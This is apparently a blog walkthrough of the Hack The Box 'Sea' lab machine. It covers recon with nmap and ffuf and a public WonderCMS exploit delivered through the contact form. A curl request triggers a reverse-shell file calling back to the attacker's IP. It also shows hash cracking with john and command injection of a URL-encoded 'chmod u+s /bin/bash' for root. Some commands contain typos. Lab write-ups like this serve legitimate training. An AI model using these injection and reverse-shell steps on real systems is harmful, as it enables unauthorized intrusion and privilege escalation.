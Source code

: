 ```yaml
---
layout: post
title: 'Sea Walkthrough: Conquering Hack The Box Season 6 "Sea htb"'
date: 14-08-2024
categories: [HackTheBox]
tag: [season 6,machines]
image:
  path: '/55img/sea.png'
---
```

## Introduction 

 __Hack The Box Season 6, "Sea Machine," is a thrilling cybersecurity competition with a nautical theme, offering challenges that simulate real-world hacking scenarios. Participants test their skills in areas like web exploitation, cryptography, and network security. It's an exciting opportunity for both beginners and experts to sharpen their hacking abilities in a competitive, engaging environment.__



## Reconnaissance

 Network Scanning: as always, we will do nmap scan to know what is opened ports and it’s services in this machine.as always, we will do nmap scan to know what is opened ports and it’s services in this machine.

 ```
    -─(hu1k0㉿kali)-[~/Desktop/HTB]
    └─$ sh nmap.sh 10.10.11.28
    Performing initial scan on 10.10.11.28...
    Open ports: 22,80
    Performing detailed scan on 10.10.11.28...
    PORT   STATE SERVICE VERSION
    22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.11 (Ubuntu Linux; protocol 2.0)
    | ssh-hostkey: 
    |   3072 e3:54:e0:72:20:3c:01:42:93:d1:66:9d:90:0c:ab:e8 (RSA)
    |   256 f3:24:4b:08:aa:51:9d:56:15:3d:67:56:74:7c:20:38 (ECDSA)
    |_  256 30:b1:05:c6:41:50:ff:22:a3:7f:41:06:0e:67:fd:50 (ED25519)
    80/tcp open  http    Apache httpd 2.4.41 ((Ubuntu))
    |_http-server-header: Apache/2.4.41 (Ubuntu)
    | http-cookie-flags: 
    |   /: 
    |     PHPSESSID: 
    |_      httponly flag not set
    |_http-title: Sea - Home
    Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
 ```
 then I browsed the site but didn't find anything interesting.
 
 ![](/img/vv1.png)
 ![](/img/vv2.png)
 

## directory discovery

 - __for directory discovery i use [ffuf](https://www.kali.org/tools/ffuf/) tool.__

 ```
  ┌──(hu1k0㉿kali)-[~/Desktop/HTB/reports] 
  └─$ ffuf -u http://sea.htb//FUZZ -w /usr/share/wordlists/dirb/common.txt  -mc 200,301,302,401,402,403 

 ```
 ![fufu1](/img/fffffu.png)
 
 - __first i go for '200' directories {contact.php}__
 - __i try some xss and sqli but no response__
  
  ![](/img/contact.png)

 - __then i tried all '301' directories but all give me Forbidden.__

  * messages , data , plugins , themes ...

 ![](/img/for.png)

 * then i back to http://sea.htb/ and press 'ctrl+u' to view-source:
  i notice this pass "http://10.10.11.28/themes/bike/css/style.css" which $bike$ is unique so i back and try to see what under this directory "/themes/bike/" 
 ```
  ┌──(hu1k0㉿kali)-[~/Desktop/HTB/reports]
  └─$ ffuf -u http://sea.htb/themes/bike/FUZZ -w /usr/share/wordlists/dirb/common.txt  -mc 200,301,302,401,402,403 -e .txt,.md,.php 
 ```
 ![](/img/rrrrr.png)

 - i go for '200' status

  README.md , version , summary , LICENSE..

 ![](/img/readme.png) 

 ![](/img/version.png)

## exploit

 - __so i go and search about it__  [Link.](https://gist.github.com/prodigiousMind/fc69a79629c4ba9ee88a7ad526043413) 

 ![](/img/exploit.png)

 - Usage: python3 exploit.py loginURL IP_Address Port\nexample: python3 exploit.py http://localhost/wondercms/loginURL 192.168.29.165 5252

 ![](/img/exlll.png)
 
 __We can send the link by [Contact](http://sea.htb/contact.php) form to the admin__

 ![](/img/sewee.png)
 
 - now after reading the exploit script we will find it create a shell file in this pass {/themes/revshell-main/rev.php?lhost=" + ip + "&lport=" + port}

 - so we will send a request by [Curl](https://curl.se/docs/tooldocs.html)

 > curl 'http://sea.htb/themes/revshell-main/rev.php?lhost=10.10.16.65&lport=9999'

 ![](/img/curl.png)
 
 > nc -nvlp 9999

 yup and we get the shell 

 ![](/img/shell.png) 
 
 now i will try to find any data to help me to get ``amay`` access
 
 ![](/img/db1.png)
 
 > cat database.js 

 ![](/img/333.png)

 * i found hash don't forget to remove a backslash \

 then i will use [johntheripper](https://www.kali.org/tools/john/) to crack this hash

 > john --wordlist=/usr/share/wordlists/rockyou.txt hash.txt

 - __now i have ```user``` and ```password``` i will to connect to ```ssh```__

 > ssh amay@10.10.11.28

 ![](/img/user.png)

## Privilege Escalation 

 - i download [linpeas.sh](https://github.com/XDev05/PEASS-ng/blob/master/linPEAS/linpeas.sh) to scan this machine 

 ![](/img/linpeas.png)

 > chmod +x linpeas.sh
 > ./linpeas.h

 ![](/img/biong.png)

 - __we have something open in localhost in this port so to access that there is a technique called Port Forwarding. It basically takes a user’s port and redirect it’s traffic to our port. To do that we have to run the following command.__

 > ssh -L 8888:10.10.16.6:8080 amay@10.10.16.6

 __and open in my browser ```127.0.0.1:8888``` and access with same ssh data..__

 ![](/img/yyyy.png)

 i will try command injection. add simicolon after [log_file=%2Fvar%2Flog%2Fapache2%2Faccess.log;]  then encode url the comman "touch /home/amay/hulk.hack" =>> "%74%6f%75%63%68%20%2f%68%6f%6d%65%2f%61%6d%61%79%2f%68%75%6c%6b%2e%68%61%63%6b" 

 ![](/img/sert.png)

 ![](/img/tert.png)

 - __BOOM!..it’s WORK !!__

 - then if i can do this command “chmod u+s /bin/bash” it will gain me a root shill.because



  ````
     "u" stands for "user" (the owner of the file).

     "+s" sets the setuid bit.

     What Does setuid Do?

      When the setuid bit is set on an executable file, it allows a user to run the executable with the permissions of the file's owner. In the case of /bin/bash, which is typically owned by the root user, this means that any user who runs /bin/bash would start a shell with root privileges.

     and that what i do ..
 ````


 ```"chmod u+s /bin/bash" =>> "%63%68%6d%6f%64%20%20%75%2b%73%20%20%2f%62%69%6e%2f%62%61%73%68"```

 ![](/img/q33.png)

 * then go to ssh connection and type. "/bin/bash -p"
 ```  
 The "-p" option in Bash stands for "privileged mode."
with "-p", Bash skips this step, allowing the shell to retain its higher privileges (usually the effective user ID).

 ```

 > /bin/bash -p 

 ![](/img/root.png)

---
![](/img/2dddddd.png)  